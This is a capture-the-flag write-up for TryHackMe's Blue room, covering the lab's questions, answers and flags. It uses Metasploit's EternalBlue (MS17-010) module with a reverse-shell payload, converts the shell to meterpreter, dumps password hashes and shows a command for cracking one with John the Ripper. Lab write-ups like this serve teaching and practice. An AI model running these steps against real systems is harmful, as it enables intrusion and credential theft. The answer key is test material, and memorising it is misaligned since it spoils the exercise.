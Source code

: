 # Write Up Blue Machine

This document is a write up of the CTF Blue in Try Hack Me.

## Task1 - Recon

- Q: Scan the machine.
- C: nmap -sV -sC MACHINE_IP -vv 

- Q: How many ports are open with a port number under 1000?
- A: 3

- Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
- A: MS17-010
- How? I looked it up on google: "Windows 7 microsoft-ds exploit"

## Task2 - Gain Access

- Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
- A: exploit/windows/smb/ms17_010_eternalblue
- C: 
   ``` bash
     msfconsole
     search ms17-010
   ```

- Q: Show options and set the one required value. What is the name of this value? (All caps for submission)
- A: RHOSTS

Now i have use: set payload windows/x64/shell/reverse_tcp  , as suggested. 
Running the exploit ends up giving me access, finishing this task.

## Task3 - Escalate

- Q: If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
- A: post/multi/manage/shell_to_meterpreter
- C: on msfconsole i used: search shell_to_meterpreter

- Q:Select this (use MODULE_PATH). Show options, what option are we required to change?
- A: Session

With this, i set Session to 1 (my session id from the target machine) and converted shell to meterpreter. 
Now we go to session 2 (meterpreter session): sessions 2

Use "getuid" to get the NT requested.

## Task4 - Cracking

- Q: Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 
- A: Jon

- Q: Copy this password hash to a file and research how to crack it. What is the cracked password?
- A:
- C: use hashdump
     (Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::)
    with jon the ripper on ffb43f0de35be4d9917ac0cc8ad57f8d:
        ```bash
            john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt

        ```


## Task5 - Flags
 Flag1: flag{access_the_machine} at C:\
 Flag2: flag{sam_database_elevated_access} at C:\Windows\System32\config
 Flag3: flag{admin_documents_can_be_valuable} at C:\Users\Jon\Documents
